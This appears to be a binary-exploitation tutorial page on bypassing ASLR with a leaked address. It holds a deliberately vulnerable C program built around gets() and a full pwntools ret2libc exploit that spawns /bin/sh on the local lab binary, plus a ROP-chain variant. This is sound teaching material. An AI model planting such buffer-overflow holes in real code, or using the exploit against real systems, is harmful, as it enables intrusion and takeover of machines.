 # ASLR Bypass with Given Leak

## The Source

{% file src="../../../.gitbook/assets/aslr.zip" caption="ASLR - 32-bit" %}

```c
#include <stdio.h>
#include <stdlib.h>

void vuln() {
    char buffer[20];

    printf("System is at: %lp\n", system);

    gets(buffer);
}

int main() {
    vuln();

    return 0;
}

void win() {
    puts("PIE bypassed! Great job :D");
}
```

Just as we did for PIE, except this time we print the address of system.

## Analysis

```text
$ ./vuln-32 
System is at: 0xf7de5f00
```

Yup, does what we expected.

{% hint style="info" %}
Your address of system might end in different characters - you just have a different libc version
{% endhint %}

## Exploitation

Much of this is as we did with PIE.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()
```

Note that we include the libc here - this is just another `ELF` object that makes our lives easier.

Parse the address of system and calculate libc base from that \(as we did with PIE\):

```python
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

Now we can finally ret2libc, using the `libc` `ELF` object to really simplify it for us:

```python
payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 64-bit

Try it yourself :\)

{% file src="../../../.gitbook/assets/aslr-64.zip" caption="ASLR - 64-bit" %}

## Using pwntools

If you prefer, you could have changed the following payload to be more pwntoolsy:

```python
payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

Instead, you could do:

```python
binsh = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(binsh)

p.sendline(rop.chain())
```

The benefit of this is it's \(arguably\) more readable, but also makes it much easier to reuse in 64-bit exploits as all the parameters are automatically resolved for you.

